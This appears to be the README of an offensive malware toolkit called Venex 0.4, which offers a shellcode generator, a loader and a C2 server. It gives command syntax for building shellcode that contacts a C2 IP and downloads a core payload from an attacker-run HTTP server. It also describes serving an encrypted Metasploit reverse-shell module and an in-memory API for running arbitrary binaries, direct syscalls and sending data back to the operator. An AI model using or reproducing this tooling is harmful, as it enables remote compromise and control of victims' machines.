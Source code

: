 # Venex 0.4 Test Version

> Note: English is not perfect, but this README will guide you through usage and structure.

## Overview

Venex is a test framework (v0.4) for creating and handling modules, shellcode, and encrypted payloads. This is an early version, so some functionality is limited.

### Directory Structure

* `/gostinit` - Contains initialization files (source code not provided; only for experienced users).
* `/tools/bin` - Main tools you will use.

### Tools

| Tool             | Description                           | Note                                                |
| ---------------- | ------------------------------------- | --------------------------------------------------- |
| `encrypt.exe`    | Encrypt data                          | Do not touch unless making a module                 |
| `obfuscater.exe` | Obfuscate data                        | Do not touch unless making a module                 |
| `hash.exe`       | Generate hashes                       | Do not touch unless making a module                 |
| `gostmsf.exe`    | Generate shellcode (Shellcode Engine) | This is the main tool for testing/debugging loaders |

## Using `gostmsf.exe`

Command syntax:

```bash
./gostmsf.exe "c2 IP_ADDRESS PORT" "curl string for loader e.g. http://99.88.77.66:5555/core.bin"
```

* Core part stored in: `/xMain/core/core.bin`
* Run a simple HTTP server to serve core:

```bash
python -m http.server 5555
```

* Start C2 testing server:

```bash
c2 /server/server.exe
```

> Note: Server only sends encrypted module (e.g., msf revshellcode, 74 bytes). Not safe for production.

## Creating Modules (<512 bytes)

* Limited functionality, v0.1 tested.
* Each function has an MBA (Module Base Address).

  * Address of function = function address - 5

### API Table

| Index | Function       | Description                                |
| ----- | -------------- | ------------------------------------------ |
| 0     | base           | Helps calculate address: `base + func RVA` |
| 1     | gostEncrypt    | Encrypt anything                           |
| 2     | gostExecute    | Execute any binary                         |
| 3     | gostGetSyscall | Get syscall number                         |
| 4     | gostEXESyscall | Execute syscall instruction                |
| 5     | gostPrint      | Print to client (secure, encrypted)        |
| 6     | gostSend       | Same as gostPrint                          |

### Calling Functions

* `rax` points to API table structure.
* Example call:

```nasm
mov rbp, [rax + <index>*8]  ; Load function pointer
add rbp, [rax]               ; Calculate final address
call rbp                     ; Call the function
```

> End of README for Venex 0.4 Test Version.
